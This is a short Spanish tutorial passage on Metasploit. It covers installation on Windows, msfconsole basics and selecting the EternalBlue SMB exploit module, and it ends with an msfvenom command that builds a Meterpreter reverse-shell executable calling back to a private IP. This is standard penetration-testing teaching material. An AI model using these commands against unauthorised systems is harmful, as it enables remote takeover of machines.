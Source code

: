 Metasploit: Directo al código – Guía Práctica

Esta guía en Markdown recopila de forma íntegra los puntos desarrollados, con ejemplos claros para tu blog.

1. Instalación de Metasploit

Descripción: Cómo descargar e instalar Metasploit Framework en Windows.

Ejemplo paso a paso:

# 1. Descargar el instalador desde el sitio oficial
# 2. Ejecutar Metasploit-latest-windows-installer.exe y seguir el asistente

# 3. Verificar que msfconsole esté accesible:
C:\> msfconsole --version
# Framework Version: 6.2.0-dev

Tras la instalación, msfconsole.bat queda en C:\metasploit-framework\.

2. Configuración y fundamentos

Descripción: Poner en marcha la base de datos y aprender los comandos básicos.

# Iniciar el servicio de PostgreSQL
C:\> net start postgresql

# Entrar en msfconsole y comprobar conexión a la base de datos:
C:\> msfconsole
msf6 > db_status
[*] postgresql connected to msf

# Comandos básicos:
msf6 > help               # Listar opciones\ nmsf6 > search smb         # Buscar módulos SMB
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(...) > show options

3. Exploits y Payloads

Descripción: Tipos de exploits, payloads y generación con msfvenom.

# Generar ejecutable .exe con Meterpreter inverso
msfvenom -p windows/meterpreter/reverse_tcp \
        LHOST=192.168.1.10 LPORT=4444 \
        -f exe -o shell.exe
